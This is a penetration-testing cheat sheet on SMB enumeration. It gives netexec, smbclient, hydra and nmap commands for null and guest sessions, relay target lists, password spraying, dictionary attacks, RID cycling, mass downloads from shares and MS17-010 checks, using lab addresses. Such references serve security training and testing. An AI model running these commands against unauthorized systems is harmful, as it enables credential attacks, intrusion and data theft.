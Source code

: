 ```yaml
---
description: Basic SMB Enumeration and Exploitation
---
```


# SMB

### Basic Enumeration

{% code overflow="wrap" %}
```bash
# List all NetExec modules
netexec smb 172.16.8.139 -L
# Check SMB version
netexec smb 172.16.8.139
# Check SMB Service on subnet
netexec smb 172.16.8.139/24

# Check null auth
smbclient -L 192.168.1.2 --no-pass
smbclient //192.168.1.2/public --no-pass
```
{% endcode %}

### Enumerate Null Sessions

Check if Null Session, also known as Anonymous session, is enabled on the network. Can be very useful on a Domain Controller to enumerate users, groups, password policies, etc.

```bash
netexec smb 172.16.8.139 -u '' -p ''
netexec smb 172.16.8.139 -u '' -p '' --shares
```

### Enumerate Guest Logon

Using a random username and password you can check if the target accepts guest logon. If so, it means that either the domain guest account or the local guest account of the server you're targetting is enabled.

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u guest -p '' --shares
netexec smb 172.16.8.139 -u 'nonexist' -p '' --shares
```
{% endcode %}

### Enumerate Hosts with SMB Signing Not Required

Maps the network of live hosts and saves a list of only the hosts that don't require SMB signing. List format is one IP per line.

{% code overflow="wrap" %}
```bash
netexec smb 192.168.1.0/24 --gen-relay-list relay_list.txt
```
{% endcode %}

Reference:

* [https://www.netexec.wiki/smb-protocol/enumeration](https://www.netexec.wiki/smb-protocol/enumeration)

### Dictionary Attack and Password Spraying

Dictionary attack with username and password lists.

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.10.10.1 smb2
```

Password spraying with NetExec

{% code overflow="wrap" %}
```bash
netexec smb 10.10.10.1 -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p 'Passw0rd' --continue-on-success
```
{% endcode %}

### Authenticated Enumeration

Shares check with credentials

{% code overflow="wrap" %}
```bash
# Check using valid account
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares

# check with local account (not domain account)
netexec smb 172.16.8.139 -u asuka -p 'p@ssw0rd' --shares --local-auth
```
{% endcode %}

Username enumeration on Workstation using valid credentials

{% code overflow="wrap" %}
```bash
netexec smb 10.10.100.206 -u 'Jon' -p 'alqfna22' --users
```
{% endcode %}

Enum disk

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.140 -u 'Administrator' -p 'Password123' --disk --local-auth
```
{% endcode %}

Check password policy on Domain/Workstation

{% code overflow="wrap" %}
```bash
netexec smb 10.4.19.75 -u 'administrator' -p 'passw0rd' --pass-pol
```
{% endcode %}

### Password Spraying

{% code overflow="wrap" %}
```bash
netexec smb 172.16.8.139 -u username-lists.txt -p 'p@ssw0rd'
```
{% endcode %}

### RID Cycling - Username Enumeration

{% code overflow="wrap" %}
```bash
# RID Cycling with Guest 
netexec smb 172.16.8.139 -u guest -p '' --rid-brute

# RID Cycling with valid account
netexec smb 172.16.8.139 -u evasvc -p 'Serviceworks1' --rid-brute

# or with impacket-lookupsid
impacket-lookupsid 'evasvc':'Serviceworks1'@evangelion.lab

```
{% endcode %}

### SMBClient

```bash
# no pass
smbclient //192.168.1.2/public --no-pass

# with creds
smbclient //172.16.8.139/secrets-folder -U  'username'%'p@ssw0rd' -p 445

# download all files from shares
smbclient '//10.10.11.174/support-tools' -N -c 'prompt OFF;recurse ON;mget *'
```

### Vuln Checks

{% code overflow="wrap" %}
```bash
nmap -Pn --script 'smb-vuln*' -p 139,445 10.10.100.206
netexec smb 10.10.100.206 -u '' -p '' -M ms17-010
```
{% endcode %}

Example output:

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-24 23:50 WIB
Nmap scan report for 10.10.100.206 (10.10.100.206)
Host is up (0.38s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```

```bash
netexec smb 10.10.100.206 -u '' -p '' -M ms17-010

SMB         10.10.100.206   445    JON-PC           [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:JON-PC) (domain:Jon-PC) (signing:False) (SMBv1:True)
SMB         10.10.100.206   445    JON-PC           [+] Jon-PC\: 
MS17-010                                            [+] 10.10.100.206 is likely VULNERABLE to MS17-010! (Windows 7 Professional 7601 Service Pack 1)
```

Updated soon...
